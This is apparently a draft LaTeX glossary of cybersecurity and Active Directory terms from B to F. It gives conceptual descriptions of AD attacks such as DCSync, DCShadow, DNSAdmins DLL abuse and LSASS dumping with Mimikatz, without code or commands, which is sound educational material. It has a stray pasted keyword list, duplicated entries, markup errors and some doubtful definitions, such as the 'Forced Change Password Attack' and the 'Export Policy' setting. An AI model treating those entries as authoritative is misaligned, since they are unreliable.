\runinhead{BlackCat (ALPHV)} BlackCat/ALPHV is the first high-profile malware written in Rust, a modern cross-platform programming language. Able to compromise Windows and Linux operating systems, BlackCat is operated as \textit{Ransomware as a Service (RaaS)} by ALPHV, a Russian-speaking group of cyber-attackers. It uses compromised user credentials to gain initial access to targeted systems and then leverages that access to further compromise user and administrator accounts in Active Directory (AD). BlackCat attacks often employ a triple-extortion tactic, whereby they make individual ransom demands for decrypting infected files, not publishing stolen data, and not launching denial-of-service (DoS) attacks.

\runinhead{Blacklist} A blacklist is a basic security control in which a list of IP addresses, users, computers, etc. is blocked or denied access. In the context of Active Directory, a blacklist can help protect the directory from known malicious entities.

\runinhead{Blowfish} A fast block cipher designed by the awesome Bruce Schneier. It operates on 64-bit blocks and uses a variable key length (up to 448 bits). Though now largely replaced by AES, it was widely used for encryption in earlier applications and was the de facto for encryption at that time.

\runinhead{BloodHound} BloodHound is an AD reconnaissance tool. BloodHound visualizes AD environments, highlighting relationships that can be exploited for privilege escalation. It is often used in advanced persistent threat (APT) attacks.
\textit{See also: BloodHound Attacks}

\runinhead{BloodHound Attack} An attacker can use BloodHound, a tool that can map AD relationships, to understand the structure of an organization’s AD environment and plan attacks based on the information.
\textit{See also: BloodHound}

\runinhead{Blue Team} In cybersecurity testing, a blue team is the group of individuals responsible for analyzing and securing an information system, identifying its security vulnerabilities and flaws, and defending the environment against potential attackers (e.g., the red team).
\textit{See also: Red Team}

\runinhead{BlueKeep} BlueKeep is a critical security vulnerability identified in Microsoft's Remote Desktop Protocol (RDP) service, officially designated as CVE-2019-0708. It affects primarily older versions of the Windows operating system, including Windows 7, Windows Server 2008, and Windows Server 2008 R2. The vulnerability allows an unauthenticated attacker to execute arbitrary code on a target system by sending specially crafted RDP requests, potentially enabling Remote Code Execution (RCE) without any need for user interaction. Due to the nature of RDP and its widespread use in remote system administration, BlueKeep is particularly dangerous because it can be exploited to create elf-propagating malware or worms, similar to the infamous WannaCry ransomware attack. Microsoft released patches to address BlueKeep in May 2019, even extending updates to unsupported systems such as Windows XP and Windows Server 2003, highlighting the severity and urgency of the threat. Despite patches being available, BlueKeep remains a significant concern because many vulnerable systems remain unpatched, leaving them exposed to potential widespread attacks that could compromise enterprise networks, disrupt services, and result in substantial data breaches or damage.

\runinhead{Bootstrap Replication} Bootstrap replication is a foundational process used in Active Directory Domain Services (AD DS) to initialize and synchronize new domain controllers (DCs) within an existing domain. When a new DC is introduced, it must obtain an initial copy of the directory data to become fully functional and consistent with the rest of the domain. Bootstrap replication involves the new DC contacting an existing DC using special Lightweight Directory Access Protocol (LDAP) requests to pull a complete snapshot of the directory database replica, including all objects, attributes, and security settings, effectively "bootstrapping" itself into the network. This initial replication is crucial because it establishes the baseline state of the domain controller, allowing us to participate fully in further incremental replication, authentication, and directory services. Without bootstrap replication, a new DC would lack the essential directory data required to process logon requests, enforce group policy, and maintain the integrity of the domain's security model. This process is automatic and transparent, but must be properly secured to prevent unauthorized access during the initial synchronization. In general, bootstrap replication ensures seamless integration of new domain controllers, promotes fault tolerance, and supports the scalability of Active Directory environments.

\runinhead{Bridgehead Server} A bridgehead server is the point of contact for replication between sites in an Active Directory forest. If an attacker compromises a bridgehead server, they can potentially manipulate the replication data.

\runinhead{Bring Your Own Device (BYOD)} BYOD refers to employees who bring their own computing devices - such as smartphones, laptops, and PDAs - to work for use and connectivity. BYOD can pose security challenges for Active Directory if not properly managed and controlled.

\runinhead{Browse} The process of viewing objects within Active Directory. An attacker who can browse your directory can start mapping out the structure and details of your AD environment.

\runinhead{Brute-Force} Brute-Force refers to a method of systematically trying all possible combinations of characters to guess passwords, encryption keys, or other security credentials. It is a trial-and-error approach that relies on automated tools to test a wide range of possibilities until the correct one is found.

\runinhead{Bug Bounty} A program offered by organization's that rewards individuals (usually ethical hackers) for discovering and responsibly disclosing software vulnerabilities. It helps improve software security through community collaboration.

\runinhead{Built-In} The term built-in refers to default groups and user accounts that are automatically created when you install Active Directory Domain Services (AD DS). These groups and accounts have default permissions and rights that are assigned, so it is important to review these defaults and ensure that they align with your organization’s security policies.

\runinhead{Built-In Container} A built-in container is a special Active Directory container that exists in the security context of the local domain controller. This container holds groups that are local to the domain controller and is created by default when AD is installed.

\runinhead{Bulk Import} A process by which large amounts of data can be imported into Active Directory, often using tools like CSVDE. If an attacker can manipulate this process, they can potentially create numerous malicious entries in AD.

\runinhead{Business Continuity Plan (BCP)} A Business Continuity Plan (BCP) is a document that outlines how a business will continue operating during an unplanned service interruption. In the context of Active Directory, a BCP can include plans for how to restore service after a major outage or attack.

\runinhead{Business Impact Analysis (BIA)} A Business Impact Analysis (BIA) is a systematic process to determine the potential consequences of a disruption to critical business operations of an organization. Identifies the most important business functions, assesses the impact of possible disruptions, and helps prioritize recovery efforts. In essence, a BIA helps companies understand what could go wrong and how best to prepare for and recover from those events. 

\section*{C}
\runinhead{Cain \& Abel} Cain \& Abel is a password recovery utility designed for Microsoft Windows. Facilitates the recovery of various passwords employing techniques such as network packet sniffing, dictionary attacks, brute-force attacks, and cryptanalysis.

\runinhead{Canonical Name (CNAME)} In Active Directory, a canonical name refers to the DNS-style path used to identify and reference directory objects. It is often used in scripting or programmatic administration tasks.

\runinhead{Capture the Flag (CTF)} A competitive cybersecurity exercise where participants solve challenges across various categories (e.g., cryptography, reverse engineering, web exploitation) to simulate real-world attack and defense scenarios.

\runinhead{Central Access Policy (CAP)} A Central Access Policy (CAP) in Active Directory is part of\textit{ Dynamic Access Control (DAC)}. It allows administrators to define and enforce access rules across multiple file servers within a domain, based on user claims and resource properties.

PGP, TOR, deep web, dark web, mariana's trench, anonymization, SOCKS/SOCKS5, SSL tunneling, proxy server, proxy relay, IP obfuscator, burner email, burner cell, clearing tracks, cloaking, active and passive reconnaissance, threat hunting, threat modeling, attack tree, heat graphs, denial of service, distributed denial of service, flooding attacks, TCP SYN, NULL, IDLE, XMAS FIN scans, mal intent, MiTM, man in the browser, incidnet response, information assurance, threat detection, EDR, XDR, behavioral analytics, anomaly detection, passive network scanning, rogue machine

 

\runinhead{Certificate Revocation List (CRL)} A Certificate Revocation List (CRL) is a list of digital certificates that have been invalidated by the Certificate Authority (CA) prior to their expiration. Maintaining an up-to-date CRL is critical in preserving secure communication within an Active Directory environment.

\runinhead{Certificate Services} Certificate Services is a server role in Windows Server that provides Public Key Infrastructure (PKI) functionality. It enables organizations to issue, manage, and revoke digital certificates used for authentication and encryption.

\runinhead{Chain of Custody} A legal and procedural process that ensures that the evidence (digital or physical) has been preserved, handled, and transferred without tampering or modification of the original preserved data. Essential in digital forensics, it ensures the integrity and admissibility of data in legal or investigative contexts.

\runinhead{Checksum} A checksum is a value computed from a data set (such as a file or packet) for the purpose of detecting errors that may have been introduced during storage or transmission. Checksums are generated using hash or mathematical algorithms and are commonly used in data validation, file integrity monitoring, and network communications. In an ethical hacking context, checksums help detect tampering or corruption by comparing a newly calculated checksum with the original. If the two values differ, it signals that the data have changed either due to error or a potential attack.

\runinhead{Child Domain (Subdomain)} A child domain is a subordinate domain within a hierarchical Active Directory forest. It inherits the namespace of its parent domain and automatically establishes a transitive two-way trust relationship with it.

\runinhead{Claim Type} Claim type represents an aspect of a user’s identity, such as group membership, and is used in Dynamic Access Control (DAC) for authorization decisions. Misconfigured claim types can lead to privilege escalation or unauthorized access.

\runinhead{Claims-based Authentication} Claims-based authentication is a process in which a user obtains a digitally signed token from a trusted source and presents it to a system. The system can then validate the token and use the claims inside it (e.g., username, role) to identify the user.

\runinhead{Client} Users run applications on computer workstations, also known as client machines. If a workstation is connected to a network, then users can take advantage of services provided by servers. Client machines typically do not store data locally, but rather receive the requested data from servers by running client-server applications.

\runinhead{Cloud Services} Cloud services are available over the Internet from a cloud computing provider. Although not specific to Active Directory, many organizations use cloud services such as Azure Active Directory in conjunction with or as an alternative to their on-premises AD.

\runinhead{Colonial Pipeline Attack} The 2021 Colonial Pipeline ransomware attack is one of the most well-known critical infrastructure attacks in recent history. The Colonial Pipeline attack demonstrated the importance of maintaining a robust Active Directory security posture.

\runinhead{Comma Separated Value (CSV)} A CSV (Comma Separated Values) file is a plain text file format used to store tabular data, such as spreadsheets or databases. Each row in the file represents a record, and the values within each row are separated by commas, making it a simple way to store and exchange data between different applications. 

\runinhead{Comma Separated Value Data Exchange (CSVDE)} CSVDE is a tool for importing and exporting Active Directory data. Comma-separated value (CSV) files can be manipulated, leading to wrong data import or export if not validated properly, which can pose security threats.

\runinhead{Common Internet File System (CIFS)}  Pronounced as \textit{"SIFS,"} CIFS is a network file-sharing protocol. It is essentially a specific version (or dialect) of the \textit{Server Message Block (SMB)} protocol developed by Microsoft. CIFS allows computers to share files and resources like printers over a network, making it easier for different systems to access and work with the same data.

\runinhead{Common Name (CN)} A common name (CN) is the name of an object in Active Directory and must be unique within its container. The CN is part of the object’s distinguished name (DN), which uniquely identifies an object in the LDAP directory. 

\runinhead{Common Vulnerabilities and Exposures (CVE)} A CVE, or Common Vulnerabilities and Exposures, is a standardized identifier assigned to publicly known cybersecurity vulnerabilities and exposures, serving as a universal reference that enables consistent vulnerability tracking, discussion, and remediation across security communities. Managed by MITRE Corporation and sponsored by the US Department of Homeland Security (DHS), the CVE system catalogs unique vulnerabilities found in software, hardware, and firmware by assigning and cataloging each a distinct CVE identification number, such as "CVE-2025-0708." This system facilitates communication among security researchers, vendors, and organizations by providing a clear, common, and understood vocabulary to describe security flaws. When a vulnerability is discovered and verified, it is submitted to the CVE program, which evaluates, assigns the CVE ID, and publishes the details including descriptions, hashes, signatures, and relevant metadata without disclosing exploit specifics. CVEs are essential for vulnerability management processes, helping defenders prioritize patches, perform risk assessments, and automate security tools such as intrusion detection systems and vulnerability scanners by referencing these standardized identifiers.

\runinhead{Common Weakness Enumeration (CWE)} CWE (Common Weakness Enumeration) is a comprehensive catalog of software and hardware weaknesses, essentially providing a detailed taxonomy of the root causes or design flaws that lead to security vulnerabilities. Managed by MITRE, CWE helps developers and developers, security professionals, and organizations better understand the underlying faults in code or systems that can be exploited. For example, common CWEs include buffer overflows, SQL injection (SQLi) flaws, and Cross-Site Scripting (XSS) vulnerabilities. By identifying and categorizing these weaknesses, CWE provides guidance for secure coding practices, risk mitigation, and security testing. It is widely used in the Secure Development Lifecycle (SDLC) processes, vulnerability analysis, and educational resources to promote awareness of fundamental security flaws and how to best avoid them.

\runinhead{Compact Directory Database} This maintenance operation reduces the size of the database file (\texttt{NTDS.DIT}). This operation requires high-privilege access and, if misused, can lead to Denial of Service (DoS) attacks.

\runinhead{Computer Object} In Active Directory, a computer object is a representation of a computer that is part of the domain. Contains various attributes about the computer, such as its name, security settings, and association with user accounts or groups.

\runinhead{Conditional Expression} In the context of Active Directory, a conditional expression can refer to conditional statements in a Group Policy Object (GPO) or within a script or tool used for AD management.

\runinhead{Configuration Container} The Configuration container in Active Directory contains information on the logical structure of the forest, including details on sites, services, and directory partitions. This data is replicated to all domain controllers in a forest. From a cybersecurity perspective, unauthorized changes to the Configuration container could lead to replication issues, impact network performance, or alter the behavior of services relying on this information. Therefore, access to modify the Configuration container should be strictly controlled and monitored.

\runinhead{Container} In Active Directory, a container is an object that can store other AD objects such as user accounts, groups, and even other organizational units (OUs). Containers cannot have group policies applied to them. OUs are also containers and can contain the same objects, plus other OUs, and can have group policies applied.

\runinhead{Context Menu} A context menu in a graphical user interface (GUI) appears in the user interaction, such as a mouse click operation. In Active Directory Users and Computers (ADUC), the context menus offer various options such as resetting passwords, moving objects, or initiating replication.

\runinhead{Create, Read, Update, and Delete (CRUD) Operations} Create, Read, Update, and Delete (CRUD) operations are the fundamental functions performed in any database system, including Active Directory.

\runinhead{Credential Roaming} Credential roaming is a feature of Active Directory that enables user credentials and certificates to be copied and transferred securely across multiple devices. The roaming of credentials helps manage digital identities in different systems.

\runinhead{Credentials} The credentials are the user name and password that a user provides to authenticate. If credentials are not properly secured, they can be targeted in credential stuffing or brute-force attacks.

\runinhead{Cross-Forest Trust} A cross-forest trust relationship can be created between two Active Directory forests. This relationship enables users in one forest to access resources in the other forest, expanding collaboration while maintaining security boundaries.

\runinhead{Cross-Reference Object} A cross-reference object is an object in the configuration partition that associates a naming context with a directory server. An attacker compromising this can cause replication issues and lead to outdated security data.

\runinhead{Cross-Site Scripting (XSS)} Cross-site scripting, or XSS, is a type of security vulnerability that is not specific to Active Directory but can potentially affect any web-based interface used for AD administration if the interface does not properly validate the input.

\runinhead{Cryptography} Cryptography is the practice and study of techniques for secure communication. In Active Directory, cryptography is used in multiple places, including secure LDAP, Kerberos authentication, and Encrypting File System (EFS).

\runinhead{Cyber Kill Chain (CKC)} The Cyber Kill Chain (CKC) is a framework that outlines the steps of a cyberattack. It is generally considered to have seven steps:

1. Reconnaissance
2. Weaponization
3. Delivery
4. Exploitation
5. Installation
6. Command and Control (C2)
7. Action on Objectives

Within hybrid and multi-cloud environments, a vigilant defender supports integrity and availability of critical enterprise directory services at every step in the cyber kill chain.

\runinhead{Cyber Warfare} Cyber warfare is a series of cyberattacks on critical computer systems of a country, state, or organization. One of the most infamous examples is NotPetya, a malware that originated in Russia in 2017 and targeted Ukraine and quickly spread around the world with devastating effects.

\runinhead{Cyberattack} A cyberattack is a malicious attempt to gain unauthorized access to computer information system resources with the purpose of stealing, altering, exposing, and destroying data or disrupting operations. Identity systems such as Active Directory are prime targets for cyberattackers.

\runinhead{Cybersecurity and Infrastructure Security Agency (CISA)} The Cybersecurity and Infrastructure Security Agency (CISA) is an agency of the Department of Homeland Security (DHS) of the United States that is responsible for strengthening cybersecurity and infrastructure against threats.

\runinhead{Credential Compromise} The initial phase of most AD attacks, where attackers steal user or service account credentials through secondary attacks such as phishing, social engineering, malware, or other means to gain initial access to the network.

\runinhead{Cyclic Redundancy Check (CRC)} A Cyclic Redundancy Check (CRC) is a noncryptographic hash function used primarily to detect accidental changes in raw data. It works by treating the data as a polynomial and dividing it by a predetermined polynomial; the remainder becomes the CRC value.

\section{D}
\runinhead{DACL Backdoor Attack} A discretionary access control list (DACL) backdoor attack involves an attacker adding an entry to an object's DACL. This grants the attacker certain permissions or rights to that object without requiring them to compromise an account with those rights.

\runinghead{Data Breach} A cyberattack that occurs with the purpose of stealing or exposing confidential, sensitive, or protected information to an unauthorized person.

\runinhead{DCShadow Attack} In a DCShadow attack, an adversary modifies the Active Directory schema by registering a rogue domain controller. The attacker can then propagate malicious replication changes to the actual domain controllers.

\runinhead{DCSync} DCSync attacks leverage the Active Directory replication feature, using Directory Replication Services (DRS) to impersonate and request password data from a domain controller. The attack can be used to effectively "pull" password hashes from a DC without having to run code on the DC itself. This type of attack is adept at bypassing traditional auditing and detection methods.

\runinhead{Defense in Depth-} Defense in depth is a cybersecurity strategy that uses multiple layered security controls throughout a network to protect against cyberattacks. The thought process behind this approach is to make it harder for attackers to succeed by ensuring that if one layer is breached, additional defenses are still in place. Each layer addresses different types of threats and breach scenarios, creating a system of security redundancies that improves overall security resilience.
\textit{See also: Layered Defense}

\runinhead{Delegation} Delegation in Active Directory refers to the process of assigning specific administrative permissions or control over certain objects or tasks to other users or groups. This allows responsibilities to be distributed without granting full administrative privileges. The thought process behind delegation is to improve operational efficiencies and security by applying the Principle of Least Privilege (PoLP), users get only the access they absolutely need to perform their roles, reducing the risk of accidental or malicious changes.

\runinhead{Delegation Attack} Kerberos delegation is a feature that allows a service to impersonate a user to other services. If not properly configured, an attacker can exploit them to escalate privileges or move laterally through the network.

\runinhead{Diffie-Hellman (DH) Key Exchange} A cryptographic protocol that allows two parties to securely establish a shared secret over an insecure channel. It is the basis for secure session key generation in many secure communication protocols. Vulnerable to Man-in-the-Middle (MiTM) attacks if not authenticated.

\runinhead{Directory Vulnerabilities} Active Directory forests often contain multiple security risks, ranging from management errors to unpatched vulnerabilities. With access to AD or Azure AD, threat actors can gain dominance over your entire infrastructure. Cyberattackers target AD to increase privileges and gain persistence in the organization. To defend AD, administrators must know how attackers are targeting the environment and which vulnerabilities they might exploit.
\textit{See also: Active Directory Privilege Escalation; Indicators of Compromise (IoC); Indicators of Exposure (IoE)}

\runinhead{DNSAdmins} Members of the DnsAdmins group have access to network DNS information. This group exists only if the DNS server role is installed or is installed on a domain controller in the domain. Attackers who gain access to this group can use that access to compromise Active Directory.

\runinhead{DNSAdmins Abuse} An attacker with membership in the DNSAdmins group can load an arbitrary DLL into the DNS service, which runs with system-level privileges, thus achieving privilege escalation.

\runinhead{DNS Attack} Active Directory is heavily based on DNS for the resolution of the name and location of the service. DNS attacks, such as DNS spoofing or DNS poisoning, can redirect or manipulate DNS requests, leading to unauthorized access or disruption of AD services.

\runinhead{Domain} A domain is a logical grouping of users, computers, and other network resources that share a common directory database and administrative structure. It represents a fundamental unit within an Active Directory environment that defines the boundaries of management, security, and replication.  

\runinhead{Domain Controller (DC)} A domain controller is a server that manages access to network resources within a specific domain, primarily handling user authentication and security. It acts as a gatekeeper, verifying user credentials and controlling which network resources users can access. DCs are essential for maintaining network security and centralized management of user accounts and permissions.

\runinhead{Domain Dominance} During a cyberattack, threat actors often seek access to Active Directory. Such access can enable attackers to eventually gain administrative privileges and ultimate power over Active Directory domains, and thus all application and data that rely on Active Directory.
\textit{See also: Active Directory Attack Lifecycle; Cyber Kill Chain}

\runinhead{Domain Naming Master} The Domain Naming Master is a FSMO (Flexible Single Master of Operations) role responsible for managing the forest-wide domain namespace. Specifically, it handles the addition and removal of domains within the forest and prevents naming conflicts when creating new domains. There is only one Domain Naming Master per forest.

\runinhead{Domain Tree} A domain tree is a hierarchical structure of domains that share a common namespace and are linked by trust relationships. Think of it as a family tree, where the "root" domain is the parent, and any domains branching off from it are considered child domains, all sharing the same naming structure.

\runinhead{Domain Trust Abuse} In an environment with multiple trusted domains, an attacker with admin access to a lower trust level domain can leverage the trust relationship to gain access to a higher trust level domain.

\runinhead{Dumping LSASS Memory} Local Security Authority Subsystem Service (LSASS) stores credentials in memory that can be dumped and extracted by an attacker. Tools such as Mimikatz are often used for this purpose.

\runinhead{Dynamic Link Library (DLL) Injection Chains}  DLL (Dynamic Link Library) injection chains involve a malicious actor who exploits the way Windows loads DLLs to execute arbitrary code within a target process. By injecting a malicious DLL, attackers can evade security measures, increase privileges, or perform other harmful actions. This technique is particularly effective because it takes advantage of the fact that many legitimate applications rely on DLLs, making it easier for malicious code to blend in with normal system activity.

\section*{E}
\runinhead{Effective Permissions} Effective permissions are a set of permissions granted to a user or group based on a combination of explicit and inherited permissions. Understanding effective permissions is critical for security auditing and risk assessments.

\runinhead{Elevated Privileges} Elevated privileges are higher-level permissions, typically administrative privileges, that are granted to a user account. An attacker who gains elevated privileges can cause significant damage or data breaches.

\runinhead{Empire} A PowerShell and Python post-exploitation framework, Empire offers a range of tools for exploiting Windows systems. Among its capabilities are features for collecting credentials, creating backdoors, and establishing persistence in an AD environment.

\runinhead{\texttt{Enable-ADAccount}} This PowerShell cmdlet is used to enable a disabled user account in Active Directory. Misuse can reactivate previously disabled malicious accounts.

\runinhead{Encrypting File System (EFS)} This Windows feature enables transparent encryption and decryption of files by using advanced standard cryptographic algorithms. Although EFS can improve data security, it should be properly managed to avoid unauthorized access or loss of data.

\runinhead{Encryption} Encryption is the process of converting data into a coded form to prevent unauthorized access. AD uses encryption in various forms for secure communication, such as Kerberos tickets or LDAPS connections.

\runinhead{Endpoint Protection} Endpoint protection is the practice of securing endpoints or entry points of end-user devices such as desktops, laptops, and mobile devices from being exploited by malicious actors and campaigns. If not properly managed, infected endpoints can compromise AD security.

\runinhead{Enterprise Administrators (EA)} This high-level group in AD has full control over all assets within the entire forest. The Enterprise Admins group is a high-value target for attackers, as compromise of an Enterprise Admins account can lead to complete domain takeover.

\runinhead{Enterprise Directory Services} A common directory, such as Microsoft Active Directory, enables a more secure environment for directory users and common expectations of the role the directory can provide to both users and applications. A common enterprise directory resource facilitates role-based access to computing resources.

\runinhead{Enterprise Mobility Management (EMM)} EMM is a set of services and technologies designed to protect corporate data on mobile devices of employees. EMM is used in conjunction with AD for identity and access management.

\runinhead{Enumeration} Enumeration is the process of extracting detailed information about objects within AD. Uncontrolled enumeration can lead to information disclosure that could aid an attacker.

\runinhead{Escalation of Privilege} Escalation of privilege (or the escalation of privilege) is a type of network intrusion that takes advantage of programming errors or design flaws to grant the intruder elevated access to the network and its associated data and applications. In an AD context, an attacker who can leverage misconfigurations or vulnerabilities to escalate their privileges can potentially gain full control over the domain.

\runinhead{Ethernet} Ethernet is a family of computer networking technologies commonly used in local area networks (LAN), metropolitan area networks (MAN), and wide area networks (WAN). Ethernet was commercially introduced in 1980 and has since been refined to support higher bit rates and longer link distances. Today, Ethernet is the most widely installed local area network technology. Ethernet cables, such as Cat 5e and Cat 6, are commonly used in wired networks. The latest versions of Ethernet can support data transfer rates up to 400 gigabits per second.

\runinhead{Event Logs} Event logs are records of significant incidents in an operating system or other software. In the context of AD, monitoring event logs can help detect security incidents or problematic configurations; however, some attacks are designed to evade event logs.

\runinhead{Event Viewer} This Microsoft Management Console (MMC) snap-in provides a view of the event logs in Windows. Administrators use Event Viewer to monitor, manage and troubleshoot issues within AD, and the tool is crucial to identifying signs of potential cyberattacks.

\runinhead{Exchange Server} Exchange Server is the Microsoft email, calendaring, contact, scheduling and collaboration platform deployed on the Windows Server operating system for use within a business or larger enterprise environment. Exchange Server interacts with AD for user information and authentication.

\runinhead{Explicit Group Membership} Explicit group membership occurs when a user or group is directly added to an AD group rather than gaining membership through nested groups. Understanding explicit and implicit (nested) group memberships is important for managing permissions and access controls.

\runinhead{Export Policy} This Group Policy setting enables the export of user and computer settings. Enabling this capability can be a security concern if not properly controlled, as it can lead to the exposure of sensitive configuration information.

\runinhead{Extended Protection for Authentication (EPA)} EPA is a security feature that enhances the protection and handling of authentication credentials when they are transmitted over the network. This technology is designed to counter man-in-the-middle (MiTM) attacks, which steal or manipulate credentials during transmission. EPA can improve the security of protocols used for communication and data exchange. For example, when used with LDAP, EPA can prevent attacks such as NTLM relaying.

\runinhead{Extended Rights} Extended rights are a set of non-standard permissions that can be granted to a security principal. Extended rights provide specific control access rights to the object to which they are applied. Misconfiguring extended rights can lead to security vulnerabilities.

\runinhead{Extended Schema}
An extended schema is an AD schema that is modified or extended with additional attributes or classes, typically to support third-party applications; however, improper modifications can lead to functionality issues or security vulnerabilities.

\runinhead{Extensible Markup Language (XML)}
XML is a markup language that defines a set of rules for encoding documents in a format that is both human-readable and machine-readable. In the context of Active Directory, XML can be used in many ways, such as creating custom scripts for specific operations, defining Group Policy settings, or formatting data reports.

\runinhead{Extensible Storage Engine (ESE)} This Jet-based ISAM data storage technology (previously known as Jet Blue) is used in Active Directory and Exchange Server. The ESE database engine enables fast and efficient data storage and retrieval using indexed and sequential access.

\runinhead{External Trust} An external trust is a type of trust in Active Directory that is manually defined and does not extend beyond two domains. Security risks can arise from improperly configured trusts, as they can enable unauthorized access across domains.

\runinhead{Extranet} An extranet is a controlled private network that allows partners, vendors, and suppliers, or an authorized set of customers, to access a subset of information accessible from an organization’s intranet. In relation to AD, proper authentication and authorization are essential to secure extranet resources.

\section*{F}
\runinhead{Failback} Failback is the process of restoring a system or other component of a system to its original state after a failure.

\runinhead{Failover} In Active Directory, failover refers to the process by which network services are moved to a standby server in case of a primary server failure. It is a crucial part of ensuring high availability.

\runinhead{Failover Clustering} Failover clustering is a Windows Server technology that enables you to create and manage failover clusters that provide high availability for network services and applications.

\runinhead{File and Printer Sharing} This network feature allows a computer to share data files and connected printers with other computers and devices on the network.

\runinhead{File Integrity Monitoring (FIM)} File Integrity Monitoring (FIM) is a security technique used to detect unauthorized or unexpected changes to critical system files, configuration files, or application binaries. FIM solutions work by creating cryptographic checksums (such as hashes) of monitored files and comparing them over time to detect modifications, deletions, or additions, and to create a baseline that displays current patterns and trends within internal network activities.

\runinhead{File Replication Service (FRS)} FRS is a Microsoft Windows Server service for distributing shared files and Group Policy Objects (GPO). FRS has been replaced by Distributed File System Replication (DFSR) in newer versions of Windows Server.

\runinhead{File System Security} File system security refers to the access controls and permissions assigned to files and directories. In an Active Directory context, file system security often refers to permissions set via Group Policy Objects.

\runinhead{Filtered Attribute Set (FAS)} FAS attributes are not replicated in Read-Only Domain Controllers (RODCs).

\runinhead{Filtering} In the context of Active Directory, filtering is used to limit the objects or attributes on which a replication or query operation acts. Improper filtering can lead to inefficient replication or inaccurate query results, affecting performance, and possibly leading to incorrect data.

\runinhead{Fine-Grained Password Policies} In Windows Server 2008 and later, these policies enable you to specify multiple password policies within a single domain. In this way, you can apply different restrictions for password and account lockout policies to different sets of users in your domain.

\runinhead{Fingerprinting Organizations with Collected Archives (FOCA) FOCA is a tool that is used to find metadata and hidden information in documents. FOCA can be used to extract information from public files hosted on the company website, providing attackers with information on the internal structure of an AD environment.

\runinhead{Firewall} This network security device monitors incoming and outgoing network traffic and decides whether to allow or block specific traffic based on a defined set of security rules.

\runinhead{Firewall Configuration} The settings and rules that determine how your firewall will manage inbound and outbound traffic. Misconfigurations can leave ports open for attackers to exploit, making the firewall a critical aspect of network security.

\runinhead{Firewall Exceptions} Firewall exceptions are configurations that allow specific network traffic to bypass security controls, often necessary for certain applications or services to function properly in a network.

\runinhead{Firewall Rules} The policies that govern how a firewall operates. These rules can define the types of traffic allowed or blocked by the firewall and where that traffic is allowed to go. Proper configuration and management of firewall rules are crucial to maintaining network security.

\runinhead{Flat Name} A flat name is the NetBIOS name of the domain and can be different from the domain’s DNS name.

\runinhead{Flexible Single Master Operations (FSMO) Role Seizure} The process of forcibly transferring FSMO roles from a non-operational domain controller to a functioning domain controller within an Active Directory domain. FSMO seizure is an emergency recovery process in which an Active Directory domain controller forcefully takes over an FSMO role from another domain controller that is malfunctioning or permanently offline. This is typically a last resort measure, as seizing an FSMO role can lead to data inconsistencies in the directory service if the original role holder becomes available again.

\runinhead{Flexible Single Master Operations (FSMO) Role Transfer} The process of transferring FSMO roles from one domain controller to another. FSMO role transfer is usually a planned process, as opposed to FSMO role seizure, which is typically an emergency process. FSMO transfer needs to be managed securely to prevent an attacker from taking control of these crucial roles.

\runinhead{Flexible Single Master Operations (FSMO) Roles} FSMO roles are special roles assigned to one or more domain controllers in an Active Directory environment. These roles manage operations that can be performed by only one DC at a time. The roles help to ensure consistency and to eliminate the potential for conflicting updates in an Active Directory environment; however, improper management or a failure of a server with one of these roles can lead to disruptions in the AD environment.

\runinhead{Forced Change Password Attack} In this type of attack, an attacker forces a user or service account to change its password. The attacker captures the new password hash as it is transmitted to the domain controller, then uses it to authenticate as the user or service account.

\runinhead{Foreign Security Principal}} An object that represents a security principal (such as a user or security group) located in a trusted domain external to the forest. These objects enable external security principals to become members of security groups within the domain.

\runinhead{Forest} In Active Directory, a forest is a collection of one or more domain trees, each with a different DNS namespace. All domain trees in a forest share a common schema and configuration container. When you first install Active Directory, the act of creating the first domain also creates a forest. Forests serve as the topmost logical container in an Active Directory configuration, encapsulating domains.

\runinhead{Forest Druid} Forest Druid is a security tool that identifies and prioritizes attack paths that lead to Tier 0 assets. The tool helps cybersecurity defensive teams quickly prioritize high-risk misconfigurations that could represent opportunities for attackers to gain privileged domain access. Rather than chasing down every avenue, defenders can use Forest Druid to quickly identify undesired or unexpected attack paths for remediation, accelerating the process of closing backdoors into Active Directory.

\runinhead{Forest Root Domain} The forest root domain is the first domain created in the forest. This domain contains some special features and is crucial for the functioning of the entire AD forest. The forest root domain cannot be removed.

\runinhead{Forest Trust} A forest trust relationship is established between two Active Directory forests. A forest trust allows users in different forests to access resources in a reciprocal manner, subject to the configured permissions. Misconfiguring these trusts can expose resources to unauthorized users, potentially leading to data breaches.

\runinhead{Forward Link} A forward link in Active Directory is a type of link attribute that points from one object to another. When the forward link is modified, the system automatically updates the link table for the back link attribute. For example, the member attribute of a group object is a forward link pointing to the users that are members of the group, whereas the memberOf attribute is the related backlink.

\runinhead{Forward Lookup Zone} A forward lookup zone is a part of the DNS server in Active Directory that is used to translate domain names into IP addresses. If not properly secured, this could potentially be exploited by attackers to gain unauthorized access or launch a DNS poisoning attack.

\runinhead{FSMO Role Seizure} The act of forcibly transferring FSMO (Flexible Single Master Operations) roles from one Domain Controller to another. This is typically done when the original Domain Controller is no longer available, and it should be used as a last resort, as it can potentially lead to issues within the domain. An improper seizure can alter AD functionality and introduce security issues.

\runinhead{Full System Restore} The process of returning a computer system to its original state, usually using a full system backup in the event of critical system failure or corruption.

\runinhead{Fully Qualified Domain Name (FQDN)} The FQDN is the complete domain name for a specific computer or host on the Internet. The FQDN consists of two parts: the hostname and the domain name. In the case of Active Directory, the FQDN is used to precisely identify the location of an object within the directory.

\runinhead{Functional Level} In Active Directory, the functional level determines the available AD DS domain or forest capabilities. It also determines which Windows Server operating systems you can run on domain controllers in the domain or forest; however, once the functional level is raised, domain controllers running earlier versions of Windows Server cannot be introduced into the domain or forest.

\runinhead{Flexible Single Master Operations (FSMO} Pronounced "FIZZ-MO," FSMO stands for Flexible Single Master Operations. These are specialized roles assigned to individual domain controllers that are responsible for specific tasks within the Active Directory forest or domain. There are five FSMO roles, two operating at the forest level and three at the domain level. They ensure the consistency and integrity of Active Directory by designating a single controller to perform certain critical operations. 

\runinhead{Forest} In Active Directory (AD), a forest is the highest-level container that acts as the overarching structure for managing network resources. Essentially, it essentially groups one or more domain trees, sharing a common schema and global catalog. Think of it as the top-level organizational unit that defines the scope of the directory service.

\runinhead{Fully Qualified Domain Name (FQDN)} A Fully Qualified Domain Name (FQDN) is the complete and unambiguous address of a device or service on the Internet. Specifies the exact location of a resource within the Domain Name System (DNS) hierarchy. Essentially, it is a domain name that includes all the necessary levels, from the host to the top-level domain (TLD). 

